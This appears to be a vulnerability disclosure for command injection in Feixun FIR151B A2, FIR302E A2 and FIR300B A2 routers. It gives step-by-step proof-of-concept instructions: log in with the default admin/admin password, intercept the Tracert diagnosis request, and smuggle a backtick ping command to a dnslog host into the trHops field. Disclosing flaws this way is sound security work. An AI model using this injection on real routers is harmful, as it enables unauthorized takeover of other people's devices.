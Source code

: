 The FIR151B A2、FIR302E A2、FIR300B A2 and so on routers has remote command execution

1. Login feixun FIR151B A2 router by default password admin /admin

2. Find the system tool → system diagnosis → Tracert → IP address / domain name. There is remote command execution at Tracert
![image](https://user-images.githubusercontent.com/96364879/182759089-f95ec4e2-d5e6-4907-a037-8a5db691fb6a.png)

3. Enter the website IP at the IP address / domain name, for example: 8.8.8.8

4. Click Start diagnosis

5. Use burpsuite intercept and change trHops argument to 20\`ping -c 3 abcdef.r4y19h.dnslog.cn\`, forward this request
![image](https://user-images.githubusercontent.com/96364879/182764151-6c698b75-57cf-4419-8bd0-c6064a1fbd57.png)

6. See the dnslog results, The command has been executed successfully
![image](https://user-images.githubusercontent.com/96364879/182764276-d13fab74-97fe-4b25-8991-a014f437ea2d.png)
